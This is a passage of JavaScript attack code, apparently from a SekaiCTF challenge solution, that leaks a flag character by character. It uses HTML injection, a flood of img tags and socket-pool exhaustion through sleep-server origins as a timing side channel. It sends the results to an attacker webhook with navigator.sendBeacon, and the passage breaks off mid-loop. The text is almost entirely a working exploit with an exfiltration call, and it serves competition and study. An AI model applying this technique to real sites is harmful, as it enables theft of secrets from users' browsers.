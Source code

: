 ```html

<script>
  // Attacker listening
  const WEBHOOK = "https://WEBHOOK.com/"
  // Send data to attacker
  const log = (id, data) => {
    let payload = JSON.stringify({ known, alphabet, data })
    console.log(id, payload)
    navigator.sendBeacon(WEBHOOK + "?" + id, payload)
  }

  // Similar to JQuery
  const $ = document.querySelector.bind(document)

  // Known part of the flag
  const known = "SEKAI{"
  let alphabet = "_abcdefghijklmnopqrstuvwxyz}"

  // Reduce the alphabet using a hash (#) in the URL
  if (location.hash) {
    alphabet = alphabet.slice(alphabet.indexOf(location.hash.slice(1)))
  }

  // Funtion to leak chars
  const leak = async (c) => {
    // Prepare post with known flag and the new char
    let payload = `${known + c}`
    // Inject as many <img as possible
    // you need to respect the CSP and create URLs that are different
    for (let i = 0; payload.length < 2048; i++) {
      payload += `<img src=js/purify.js?${i.toString(36)}>`
    }

    // Inject HTML
    $("#create input[type=text]").value = payload
    $("#create").submit()
    await new Promise((r) => setTimeout(r, 1000))

    // Remove post with index 0
    $("#remove").submit()
    await new Promise((r) => setTimeout(r, 500))

    let deltas = []

    // Try each char 3 times
    for (let i = 0; i < 3; i++) {
      const SOCKET_LIMIT = 255
      // you will need a custom server that works like num.sleepserver.com/sleep/delay
      // needed to freeze the blocked sockets, and they have to all be on different origins
      // Check https://www.npmjs.com/package/sleep-server using subdomains DNS wildcard
      const SLEEP_SERVER = (i) => `http://${i}.sleepserver.com/sleep/60`

      const block = async (i, controller) => {
        try {
          return fetch(SLEEP_SERVER(i), {
            mode: "no-cors",
            signal: controller.signal,
          })
        } catch (err) {}
      }

      // block SOCKET_LIMIT sockets
      const controller = new AbortController()
```